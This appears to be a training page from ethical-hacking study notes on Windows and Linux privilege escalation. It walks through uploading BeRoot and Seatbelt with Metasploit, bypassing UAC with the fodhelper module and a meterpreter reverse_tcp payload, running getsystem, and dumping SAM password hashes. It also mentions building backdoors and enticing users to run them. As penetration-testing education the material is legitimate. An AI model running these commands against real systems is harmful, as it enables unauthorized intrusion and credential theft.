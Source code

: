 # Escalate Privileges

Perform escalate privileges by using user account passwords obtained in the first step of system hacking. In privileges escalation, you will attempt to gain system access to the target system, and then try to attain higher-level privileges within that system. In this step, you will use various privilege escalation techniques such as named piped impersonation, misconfigured service exploitation, pivoting, and relaying to gain higher privileges to the target system.

Privilege escalation is the process of gaining more privileges than were initially acquired. Here, you can take advantage of design flaws, programming errors, bugs, and configuration oversights in the OS and software application to gain administrative access to the network and its associated applications.

Backdoors are malicious files that contain Trojan or other infectious application that can either halt the current working state of a target machine or even gain partial or complete control over it. Here, you need to build such backdoors to gain remote access to the target system. You can send these backdoors through email, file-sharing web applications, and shared network drives, among other methods, and entice the users to execute them.

Privileges are a security roles assigned to users for specific programs, features, OSes, functions, files, or codes. They limit access by type of user. Privilege escalation is required when you want to access system resources that you are not authorized to access. It takes place in two forms: vertical privilege escalation and horizontal privilege escalation.&#x20;

* **Horizontal Privilege Escalation**: An unauthorized user tries to access the resources, functions, and other privileges that belong to an authorized user who has similar access permissions.&#x20;
* **Vertical Privilege Escalation**: An unauthorized user tries to gain access to the resources and functions of a user with higher privileges such as an application or site administrator.

***

## Privilege Escalation tools and Exploit Client-side Vulnerabilities

Privilege escalation tools such as **BeRoot** and **GhostPack Seatbelt** allow you to run a configuration assessment on a target system to find information about the underlying vulnerabilities of system resources such as services, file and directory permissions, kernel version, and architecture (Also **LinPEAS**). Using this information, you can find a way to further exploit and elevate the privileges on the target system.

Exploiting client-side vulnerabilities allows you to execute a command or binary on a target machine to gain higher privileges or bypass security mechanisms. Using these exploits, you can further gain access to privileged user accounts and credentials.

### BeRoot

Allow to run a configuration assessment on a target system to find out information about its underlying vulnerabilities, services, file and directory permissions, kernel version, architecture, as well as other data. Using this information, you can find a way to further exploit and elevate the privileges on the target system.

1. Upload the application beRoot.exe

If using metasploit, type:

```
upload /path/to/file/beRoot.exe
```

2. Run the file&#x20;

The result appears, displaying information about service names along with their permissions, keys, writable directories, locations, and other vital data. Can further scroll down to view the information related to startup keys, task schedulers, WebClient vulnerabilities, and other items.

Can find further vulnerabilities in the resulting services and attempt to exploit them to escalate your privileges in the target system. Windows privileges can be used to escalated privileges. These privileges include **SeDebug, SeRestore & SeBackup & SeTakeOwnership, SeTcb & SeCreateToken, SeLoadDriver, and SeImpersonate & SeAssignPrimaryToken.**

### **GhostPack Seatbelt**

To gather host information and perform security checks to find insecurities in the target system.

If using metasploit, type:

```
upload /path/to/file/Seatbelt.exe
shell
```

when the shell already changed, type below to gather information about AMSIProviders, **AntiVirus**, **AppLocker** etc.

```
Seatbelt.exe -group=system
```

Type below to gather information about **ChromiumPresence, CloudCredentials, CloudSyncProviders, CredEnum, dir, DpapiMasterKeys,** etc.

```
Seatbelt.exe -group=user
```

Type below to gather information about **ChromiumBookmarks, ChromiumHistory, ExplicitLogonEvents, FileInfo etc.**

```
Seatbelt.exe -group=misc
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Bypass User Account Control (UAC) setting: Named Pipe Impersonation Technique

to escalate the privileges using the Named Pipe Impersonation Technique. In metasploit, type:

```
run post/windows/gather/smart_hashdump
```

If the meterpreter require admin privileges to perform such actions, try to escalate the privileges by issuing a **getsystem** command to attempts to elevate the user privileges.

```
getsystem -t 1
```

if access denied, try to bypass the UAC setting that is blocking from gain unrestricted access.

Bypass **Windows UAC Protection** via **FodHelper Registry Key**.

Type **background** to to move aside the session first, do this and configure the options.

```
use exploit/windows/local/bypassuac_fodhelper
show options
```

observe that the **SESSION** is required, type:

```
set SESSION 2
```

Make sure to configure the payload to **windows/meterpreter/reverse\_tcp.**

type **exploit** or **run** to begin exploit the UAC.

```
set payload windows/meterpeter/reverse_tcp
exploit
```

If the UAC exploit successfully bypassed, type:

```
getuid # check the status of current user ID
getsystem -t 1 # re-issue command to elevate privileges
```

Now try to obtain password hashes located in the SAM file. Now this has successfully extracts the NTLM hashes and display them. Can further crack these password hashes to obtain plaintext passwords.

```
run post/windows/gather/smart_hashdump
```

***

## linpeas



***

## winpeas



***

## LinEnum

{% embed url="https://github.com/rebootuser/LinEnum" %}



***

## WES-NG



{% embed url="https://github.com/bitsadmin/wesng" %}



***

## LES



{% embed url="https://github.com/The-Z-Labs/linux-exploit-suggester" %}

